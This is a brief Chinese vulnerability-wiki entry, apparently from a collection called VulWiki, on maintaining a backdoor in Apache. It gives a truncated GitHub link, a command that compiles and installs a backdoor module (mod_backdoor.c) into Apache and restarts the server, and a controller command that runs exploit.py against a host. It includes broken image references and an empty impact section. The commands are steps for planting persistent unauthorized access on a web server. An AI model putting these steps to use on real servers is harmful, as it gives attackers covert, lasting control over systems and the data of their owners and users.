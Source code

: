Apache后门维持
==============

一、漏洞简介
------------

通过运行第三方脚本，实现维持后门的方法

二、漏洞影响
------------

三、复现过程
------------

https://github.com/ianxtianxt/apache-

### 1、上传 mod\_backdoor.c到服务器，并执行命令

    apxs -i -a -c mod_backdoor.c && service apache2 restart

![](/Users/aresx/Documents/VulWiki/.resource/Apache后门维持/media/rId25.jpg)

### 2、控制端执行方法

    python exploit.py 127.0.0.1 80

image
